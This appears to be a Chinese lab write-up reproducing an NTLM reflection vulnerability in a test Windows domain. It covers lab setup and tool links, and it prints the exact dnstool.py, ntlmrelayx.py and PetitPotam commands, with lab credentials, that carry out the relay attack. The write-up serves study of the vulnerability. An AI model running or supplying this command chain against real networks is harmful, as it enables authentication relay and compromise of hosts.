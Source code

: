 # 前言
真应了那句话，环境搭建2小时，漏洞复现5分钟，前前后后折腾了好久，最终方案：我的宿主机是Mac 15.3.2，PD下虚拟化的Win2019、Win10，VMware Fusion下虚拟化的Kali，均使用桥接。

期间试过用PD下的Win10作为攻击机，但是涉及445端口占用问题，也试过PD下安装kali，可是怎么也装不上，干脆不折腾了

# 系统下载
https://msdn.itellyou.cn/  
https://next.itellyou.cn/  

# 域环境搭建
【搭建一个简单的Windows域环境】https://blog.csdn.net/qq_28205153/article/details/113827476

# 漏洞复现
【谢公子的复现分析】https://mp.weixin.qq.com/s/x1ZtxBAWx-eNS4WCaUagfg  
【狼组的复现分析】https://mp.weixin.qq.com/s/Ew9OULVjM-zLAxpMsaUyvQ  
【漏洞作者的分析】https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  

域：test.local  
域控（Win2019）：172.20.10.4  
受害机（Win10）：172.20.10.5  
攻击机（Kali）：172.20.10.2  

下载下述三个工具  
https://github.com/dirkjanm/krbrelayx  
https://github.com/fortra/impacket/releases/download/impacket_0_12_0/impacket-0.12.0.tar.gz  
（注意：impacket不要用master分支的版本，截止到2025.06.29，master分支的版本是0.13.0.dev0，里面的代码有更新，会导致脚本执行失败）  
https://github.com/topotam/PetitPotam  

```
python3 dnstool.py -u 'test.local\john' -p 'nongxinL878' -r ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 172.20.10.2 --action add 172.20.10.4
```
![image](./image/01.png)


```
python3 ntlmrelayx.py -t 172.20.10.5 -smb2support -ts
```
![image](./image/02.png)


```
python3 PetitPotam.py -d test.local -u john -p nongxinL878 ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 172.20.10.5
```
![image](./image/03.png)
如图所示，表示漏洞可能被修补了

下图是漏洞没被修补的输出，需要注意漏洞利用时防火墙需要关闭，否则在执行PetitPotam时会连接不上目标的445端口  
![image](./image/04.png)

# 漏洞分析
待补充

# 漏洞挖掘
待补充